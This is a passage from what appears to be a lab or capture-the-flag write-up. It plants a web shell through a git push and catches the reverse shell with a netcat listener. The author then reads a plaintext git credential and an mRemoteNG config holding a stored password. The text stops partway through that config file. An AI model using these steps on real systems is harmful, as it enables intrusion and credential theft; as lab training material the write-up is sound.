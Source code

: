 ```bash
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To <http://10.10.117.165:3000/ellen.freeman/website>
   73cdcc1..8e7d433  main -> main
```

Browse to the reverse shell location and you should get a callback.
```bash
<http://10.10.117.165/shell.aspx>
```
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.8.1.49] from (UNKNOWN) [10.10.117.165] 50569
Microsoft Windows [Version 10.0.20348.2159]
(c) Microsoft Corporation. All rights reserved.

c:\\windows\\system32\\inetsrv>whoami
lock\\ellen.freeman
```

Found credentials for ellen.freeman.
```bash
C:\\Users\\ellen.freeman>type .git-credentials
<http://ellen.freeman:YWFrWJk9uButLeqx@localhost:3000>
```

In the documents folder of ellen.freeman, we find a password for the gale.dekarios user.
```bash
C:\\Users\\ellen.freeman\\Documents>type config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="<http://mremoteng.org>" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
```